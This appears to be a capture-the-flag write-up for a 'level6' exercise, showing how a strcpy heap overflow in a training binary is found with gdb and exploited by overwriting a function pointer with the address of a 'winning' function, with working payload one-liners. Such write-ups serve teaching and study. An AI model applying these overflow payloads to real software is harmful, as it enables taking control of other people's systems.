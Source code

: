 # Exploit Strcpy

From the man:
```
BUGS:
If the destination string of a strcpy() is not large enough, then anything might happen. 

Overflowing fixed-length string buffers is a favorite cracker technique for taking complete control of the machine.
Any time a program reads or copies data into a buffer, the program first needs to check that there's enough space.
```

## Context

We have 3 functions, main, n, and m.

Main function call twiche malloc.

```c
char *__dest = malloc(0x40); // 0x0804a1a0 is the buffer __dest;
strcpy(__dest, argv[1]);
```

Problem, strcpy loop until argv[1][x] = '\0' without checking for __dest size. Which is 0x40 max.

So the vulnerabilty is here.

The program call malloc a second time

```c
ppcVar1 = (code **)malloc(4); //0x0804a1f0 -> malloc de size 4
// later in the code, it point to m() func
```

As you can see in the stack :

```c
0x0804a1f0  →  0x08048468  →  <m+0> push ebp
0x0804a1a0  →  0x00000000
```
## Exploit

First : find offset of segfault: how many byte should i write in heap before overwriting:

```c
pattern create
r <pattern>
[#0] Id 1, Name: "level6", stopped 0x61616175 in ?? (), reason: SIGSEGV
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  pattern offset 0x61616175
[+] Searching for '75616161'/'61616175' with period=4
[+] Found at offset 80 (little-endian search) likely
```

if y write more than 80 char, it will overwrite next data in the heap. So lets overwrite function pointer to our vuln func.

```c
// run the program
gef➤ r $(python2.7 -c 'import sys; sys.stdout.write(b"A" * 80 + b"B" * 4)')

// print memory mapping of process
gef➤ info  proc mappings 
process 20093
Mapped address spaces:

	Start Addr   End Addr       Size     Offset  Perms   objfile
	 0x8048000  0x8049000     0x1000        0x0  r-xp  
	 0x8049000  0x804a000     0x1000        0x0  rw-p   
	 0x804a000  0x806c000    0x22000        0x0  rw-p   [heap]
	 // heap start at 0x804a000

// printing 400 word(4byte) in hexa of the heap
gef➤  x/400xw 0x804a000
0x804a000:	0x00000000	0x00000000	0x00000000	0x00000191
...
0x804a190:	0x00000000	0x00000000	0x00000000	0x00000051
0x804a1a0:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a1b0:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a1c0:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a1d0:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a1e0:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a1f0:	0x42424242	0x00000000	0x00000000	0x00021e09
// bingo, we see that 0x804a1f0 as been overwrite
// remember, normaly it containt m() as we saw previsouly (0x0804a1f0  →  0x08048468  →  <m+0> push ebp)
```

It segfault because the program call `(**ppcVar1)();`. What it does ? It read the address store at 0x804a1f0 and jump to it.

Final step is too replace BBBB per the address of the winnig func : n();

```bash
objdump -t | grep n
08048454 g     F .text	00000014              n

./level6 $(python2.7 -c 'import sys; sys.stdout.write(b"A" * 80 + b"\x54\x84\x04\x08")')
```

It doesn't work on the server, because the heap was store differently or the heap function isn't the same version. I cuted the offset and it worked fine.

```py
./level6 $(python2.7 -c 'import sys; sys.stdout.write(b"A" * 72 + b"\x54\x84\x04\x08")')
```